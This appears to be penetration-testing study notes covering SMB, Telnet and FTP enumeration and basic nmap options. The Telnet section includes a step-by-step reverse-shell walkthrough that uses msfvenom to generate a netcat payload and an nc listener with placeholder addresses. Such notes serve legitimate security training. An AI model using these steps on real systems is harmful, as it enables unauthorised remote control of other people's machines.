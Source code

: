 ## SMB
- SMB, Server Message Block Protocol, is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network.
- Servers make file systems and other resources (printers, named pipes, APIs) available to clients on the network.
- Once clients have established a connection, clients can then send commands (SMBs) to the server that allow them to access shares, open files, read and write files, and generally do all the sort of things that you want to do with a file system. However, in the case of SMB, these things are done over the network.
- Clients connect to servers using TCP/IP (actually NetBIOS over TCP/IP as specified in RFC1001 and RFC1002), NetBEUI or IPX/SPX.
- SMB runs on ports 139/tcp netbios-ssn and 445/tcp microsoft-ds
  
### Enumeration
- It is the process of gathering information on a target in order to find potential attack vectors and aid in exploitation.
- It can be used to gather usernames, passwords, network information, hostnames, application data, services, or any other information that may be valuable to an attacker.
- `enum4linux [options] ip` can be used to enumerate SMB shares on both Windows and Linux systems.
- After getting to know the share names on a server, We can remotely access the SMB share using the syntax: `smbclient //[IP]/[SHARE]` Followed by the tags: -U [name] : to specify the user -p [port] : to specify the port

## Telnet
- Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.
- You can connect to a telnet server with the following syntax: `telnet [ip] [port]`
- Telnet has been replaced by SSH in most implementations in some applications due to the vulnerabilities discovered and that it sends messages in clear text.
> A "shell" is a command-line interface that allows users to interact with an operating system, execute commands, and manage files and processes. A "reverse shell" is a type of shell in which the target machine initiates a connection back to the attacker's machine, allowing the attacker to gain remote access and control over the target system. This is achieved by running a malicious payload on the target system, which establishes a network connection to a specified IP address and port controlled by the attacker. Once the connection is established, the attacker can execute commands and perform various actions on the compromised system as if they had physical access to it.
- After we get to know telnet port and that is open, we can try to execute commands on the target machine through a reverse shell:
  1. First we need to test if the local-target machines are able to reach eachother by starting a tcpdump listener on my local machine `sudo tcpdump ip proto \\icmp -i tun0` and pinging my machine from the telnet session `.RUN ping <my_machine_IP>`.
  2. Then we can generate a reverse shell payload using ***msfvenom***.This will generate and encode a netcat reverse shell for us. Here's the syntax: `msfvenom -p cmd/unix/reverse_netcat lhost=<local tun0 ip (our machine IP)> lport=<<listening port>> R`.
  3. In another terminal, we should start a netcat listener on our machine: `nc -lvp <listening port>`.
  4. Then we copy paste the payload generated by ***msfvenom*** to execute through the telnet session.
  5. By then, we can execute commands from our machine through netcat.

## FTP
- File Transfer Protocol (FTP) is a protocol used to allow remote transfer of files over a network. It uses a client-server model to do this.
- FTP session operates using two channels: [1] a command (sometimes called the control) channel [2] a data channel.
- The FTP server may support either Active or Passive connections, or both.
  - In an Active FTP connection, the client opens a port and listens. The server is required to actively connect to it. 
  - In a Passive FTP connection, the server opens a port and listens (passively) and the client connects to it. 
- Once we know that FTP port is open, we can try connecting by `ftp <IP>`. sometimes we can login anonymously to ftp server, We can do this using by typing entering "anonymous" as username, and no password when prompted.

#### NMAP
- To look for open ports in the most common 1000 ports: `nmap ip`
- for all ports: `nmap -p- ip`, for range of ports `nmap -p x-y ip`
- `-sV`: Enables service version detection. It attempts to determine the version of the running services on the target.
- `-A`: Aggressive scan. It includes additional features like OS detection, script scanning, and traceroute.
